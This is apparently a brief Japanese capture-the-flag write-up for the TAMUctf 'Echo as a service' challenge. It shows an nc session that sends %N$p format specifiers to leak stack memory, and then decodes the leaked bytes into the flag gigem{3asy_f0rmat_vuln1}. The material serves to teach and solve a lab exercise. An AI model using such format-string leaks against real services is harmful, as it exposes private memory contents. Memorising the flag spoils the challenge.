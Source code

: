 # Solution
fsbがあり、flagがstack上に読み込まれているので、それを読みだしていけばよいだけ。

```
$ nc challenges.tamuctf.com 4251
Echo as a service (EaaS)
%8$p
0x61337b6d65676967
Echo as a service (EaaS)
%9$p
0x616d7230665f7973
Echo as a service (EaaS)
%10$p
0x7d316e6c75765f74
Echo as a service (EaaS)
%11$p

上記のバイト列を文字列に変換するとflagが分かる。
gigem{3asy_f0rmat_vuln1}
```
